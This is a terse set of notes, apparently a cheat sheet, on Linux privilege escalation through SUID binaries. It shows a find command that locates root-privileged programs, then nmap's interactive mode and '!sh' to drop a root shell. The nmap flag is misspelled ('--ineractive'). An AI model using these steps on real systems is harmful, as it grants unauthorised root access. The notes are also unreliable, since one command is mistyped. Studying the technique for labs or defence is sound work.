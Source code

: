 </h3>find programs with 4000 perm</h3>

basically u can run these programs that have root priv
almost similar to escalation via SUID

``find / -perm /4000 -type f 2>/tmp/2``

for nmap:
``nmap --ineractive``

drop root shell:
``!sh``
